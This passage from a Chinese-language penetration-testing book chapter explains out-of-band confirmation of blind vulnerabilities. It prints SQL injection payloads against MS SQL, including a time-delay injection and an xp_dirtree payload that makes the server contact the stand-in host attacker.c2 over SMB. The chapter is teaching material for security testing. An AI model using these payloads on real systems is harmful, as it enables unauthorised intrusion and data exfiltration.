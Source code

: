 # 第六章：带外利用

在上一章中，我们探讨了确认和利用文件包含漏洞。确认部分是直观的，因为服务器会立即显现出应用程序的漏洞。那么，当情况并不那么明显时会发生什么呢？如果服务器有漏洞，但在收到意外输入时没有任何明显的提示呢？在测试 SQL 注入漏洞时，攻击者通常会输入特制的值并观察应用程序的行为。有时，如果他们运气好，服务器会返回一个鲜红的 SQL 错误信息，这可以表明存在注入点。

随着应用程序和框架变得越来越复杂，生产环境中的应用程序经过加固，曾经用于确认漏洞的行为线索不再那么显而易见。现代应用程序默认抑制错误信息，并且可能不会总是同步处理输入。如果我们的有效载荷每隔八小时由后台批处理作业执行一次，我们就无法在 HTTP 响应中看到效果，可能会错过一个潜在的关键漏洞。

**带外**漏洞发现是指我们通过迫使应用程序与我们控制的外部服务交互的过程。如果一个应用程序存在 SQL 注入漏洞，但在初次扫描时没有明显的线索，我们可以输入一个有效载荷，诱使应用程序与我们的 C2 服务器通信，足以证明我们的有效载荷已经被执行。

在本章中，我们将讨论以下内容：

+   创建 C2 服务器

+   使用**INetSim**模拟服务

+   使用带外技术确认漏洞

+   高级数据泄露

# 一个常见场景

假设应用程序`http://vuln.app.internal/user.aspx?name=Dade`在`name`参数上存在 SQL 注入漏洞。传统的有效载荷和多用途载荷似乎不会影响应用程序的响应。也许数据库错误信息被禁用，而且应用程序对`name`值的处理是异步的。

在后台的某个地方，**Microsoft SQL**（**MS SQL**）服务器执行了以下查询：

```
SELECT * FROM users WHERE user = '**Dade**';
```

对`name`值使用简单的单引号会导致 SQL 错误，这时我们就可以进行攻击，但在这种情况下，错误信息被抑制，因此从客户端的角度来看，我们根本不知道出了什么问题。进一步说，我们可以强制应用程序延迟响应一段显著的时间来确认漏洞：

```
SELECT * FROM users WHERE user = 'Dade';**WAITFOR DELAY '0:0:20' --**';
```

这个有效载荷将一个 20 秒的延迟注入到查询返回中，这个延迟足够明显，能够引起警觉，但查询是异步执行的。也就是说，应用程序在查询完成之前就响应我们，因为它可能不依赖于查询结果。

这就是在寻找难以发现的漏洞时，强制执行带外服务交互的优势所在。与`WAITFOR DELAY`有效载荷不同，以下内容将强制 MS SQL 服务器通过**服务器消息块**（**SMB**）协议连接到我们控制的任意主机：

```
';declare @q varchar(99);set **@q**=**'\\attacker.c2\test'**; exec master.dbo.xp_dirtree **@q**;--
```

尽管不常见，但这个有效载荷相当容易理解，即使是对于那些每天不处理 SQL 的我们来说。代码将：

1.  为字符串变量`@q`分配空间（类型`varchar`，长度`99`字节）

1.  将`@q`变量值设置为指向我们服务器的**通用命名约定**（**UNC**）路径：`\\attacker.c2\test`

1.  执行存储在`@q`中的 UNC 路径的目录列表

服务器可能能够或无法与我们的服务器协商 SMB 连接并获取文件列表。是否成功建立 SMB 协议通信并不重要。如果我们控制`attacker.c2`域，我们几乎可以立即证明 SQL 注入攻击的存在。这对许多通过传统扫描方法难以发现的漏洞类型同样适用。例如，**XML 外部实体**（**XXE**）攻击也可以通过完全相同的方法带外确认。一些 XSS 漏洞从攻击者的角度看并不总是明显。注入的 JavaScript 代码可能仅在一个控制面板中显示，而该控制面板通常不会呈现给攻击者，但一旦管理员登录，漏洞就会触发。这可能是几小时，甚至几天后，载荷被注入之后。带外发现和利用可以在载荷执行时立即警告攻击者。
